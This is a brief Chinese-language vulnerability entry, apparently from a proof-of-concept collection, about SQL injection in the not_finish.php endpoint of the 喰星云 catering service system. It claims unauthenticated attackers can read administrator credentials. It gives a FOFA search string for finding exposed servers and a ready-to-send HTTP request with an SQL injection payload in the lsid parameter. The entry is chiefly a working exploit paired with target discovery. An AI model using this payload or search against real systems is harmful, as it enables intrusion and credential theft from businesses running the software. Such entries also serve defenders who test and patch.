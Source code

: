 ## 喰星云-数字化餐饮服务系统not_finish.php存在SQL注入漏洞

喰星云·数字化餐饮服务系统 not_finish.php 接口处存在SQL注入漏洞，未经身份验证的远程攻击者可利用此漏洞读取后台管理员账号密码登录凭证信息，导致后台权限被控，造成信息泄露，使系统处于极不安全的状态。

## fofa

```yaml
body="tmp_md5_pwd"
```

## poc

```java
GET /logistics/home_warning/php/not_finish.php?do=getList&lsid=(SELECT+(CASE+WHEN+(6192=6193)+THEN+''+ELSE+(SELECT+9641+UNION+SELECT+2384)+END)) HTTP/1.1
Host: {{Hostname}}
```

